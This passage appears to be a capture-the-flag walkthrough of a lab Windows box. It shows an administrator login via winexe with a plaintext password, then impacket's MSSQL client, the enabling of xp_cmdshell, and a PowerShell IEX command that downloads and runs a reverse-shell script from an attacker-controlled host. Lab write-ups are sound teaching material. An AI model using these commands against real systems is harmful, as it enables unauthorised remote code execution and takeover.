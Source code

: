 Then upgraded to Powershell - which did work... but had some weird input bugs.

```none
└─$ winexe -U 'administrator%MEGACORP_4dm1n!!' //10.10.10.27 'powershell.exe'                                 134 ⨯
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami

archetype\administrator
PS C:\Windows\system32> (Get-Content C:\Users\administrator\Desktop\root.txt | Measure-Object -Character).Characters
Get-Content C:\Users\sql_svc\Desktop\user.txt | Measure-Object -Character).Characters
32
```

Done! However, after reading a couple of other walkthroughs - it seemed I selected some unusual tools in my methods. I thought it would be useful to document these other solutions...

## Alternative MSSQL Shell using `impacket`

After seeing others use `impacket` I wanted to try it. Started by downloading and compiling.

```none
sudo apt get install python3-pip
wget https://github.com/SecureAuthCorp/impacket/releases/download/impacket_0_9_22/impacket-0.9.22.tar.gz
tar xvf impacket-0.9.22.tar.gz
cd impacket-0.9.22
python3 -m pip install .
```

Use `mssqlclient.py` script to connect to the server.

```
cd examples
python3 mssqlclient.py -windows-auth ARCHTYPE/sql_svc@10.10.10.27
```

Then, enable `xp_cmdshell`.

```
EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure;
xp_cmdshell "whoami"
```

Get a proper shell using the same `shell.ps1` reverse shell.

```
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.15:8000/shell.ps1\")";
```
